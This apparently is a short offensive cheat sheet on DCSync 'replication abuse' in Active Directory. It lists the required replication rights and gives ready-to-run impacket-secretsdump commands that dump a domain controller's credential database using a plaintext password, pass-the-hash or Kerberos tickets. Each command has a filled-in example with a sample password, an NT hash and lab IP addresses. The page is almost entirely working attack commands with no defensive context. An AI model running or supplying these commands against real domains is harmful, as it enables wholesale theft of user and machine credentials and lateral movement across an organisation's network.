 # Replication abuse
## Prerequisites
- `DS-Replication-Get-Changes` (part of `GenericAll` on a Domain object)
- `DS-Replication-Get-Changes-All` (part of `GenericAll` on a Domain object)

## impacket-secretsdump

```bash
# using a plaintext password
impacket-secretsdump -outputfile $FILES_NAME "$DOMAIN"/"$USER":"$PASSWORD"@"$DOMAINCONTROLLER"
# impacket-secretsdump -outputfile contoso.dump 'CONTOSO.ORG'/'Administrator':'win2016-cli-P@$swd'@'192.168.68.64'

# with PTH (COMPUTERNAME$)
impacket-secretsdump -outputfile $FILES_NAME -hashes $LMHASH:$NTHASH $DOMAIN/"$USER"@"$DOMAINCONTROLLER"
# impacket-secretsdump -outputfile contoso.dump -hashes aad3b435b51404eeaad3b435b51404ee:d0773d3d8ae3a0f436b2b7e649faa137 'CONTOSO.ORG/WIN-NUU0DPB1BVC$@192.168.68.64'

# PTT
impacket-secretsdump -k -outputfile $FILES_NAME "$DOMAIN"/"$USER"@"$KDC_DNS_NAME"
# impacket-secretsdump -k -outputfile contoso.org.dump WIN-KML6TP4LOOL.contoso.org
```
